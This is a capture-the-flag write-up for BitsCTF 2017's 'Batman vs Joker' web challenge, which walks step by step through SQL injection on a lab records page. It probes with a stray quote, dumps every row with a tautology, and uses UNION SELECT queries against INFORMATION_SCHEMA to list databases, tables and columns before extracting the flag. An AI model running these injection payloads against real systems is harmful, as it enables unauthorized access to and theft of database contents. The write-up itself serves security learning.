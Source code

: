 _[<<< Return to BitsCTF 2017 tasks and writeups](/bitsctf-2017)_
# Batman vs Joker (Web, 30 points)

>Joker has left a message for you.
Your job is to get to the message asap. joking.bitsctf.bits-quark.org

This challenge looks like the "low" level of
[Damn Vulnerable Web Application](http://www.dvwa.co.uk/).

This website allows us to query the "CIA Ofiicial Records" (sic) by entering an id in the textbox.

```
>>> id: 1
First name:Harry
Surname: Potter
```

```
>>> id: 2
First name:Hermione
Surname: Granger
```

```
>>> id: 3
First name:Ronald
Surname: Weasley
```

```
>>> id: 4
First name:Joker
Surname: Joker
```

Now let's try some basic [SQL injections](https://www.owasp.org/index.php/SQL_Injection).

```
>>> id: 1'
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' Limit 1' at line 1
```

```
>>> id: 1' OR '1'='1'#
First name:Harry
Surname: Potter

First name:Hermione
Surname: Granger

First name:Ronald
Surname: Weasley

First name:Joker
Surname: Joker
```

Name of all the databases?

```
>>> id: ' UNION SELECT 1, schema_name FROM INFORMATION_SCHEMA.SCHEMATA#
First name:1
Surname: information_schema

First name:1
Surname: hack

First name:1
Surname: mysql

First name:1
Surname: performance_schema
```

Name of tables in the 'hack' database?

```
>>> id: ' UNION SELECT 1, table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='hack'#
First name:1
Surname: CIA_Official_Records

First name:1
Surname: Joker
```

Name of columns in the 'Joker' table?

```
>>> id: ' UNION SELECT 1, column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='Joker'#
First name:1
Surname: Flag

First name:1
Surname: HaHaHa
```

Let's grab the flag and the points!

```
>>> id: ' UNION SELECT Flag, HaHaHa from Joker#
First name:BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}
Surname: Enjoying the game Batman!!!
```
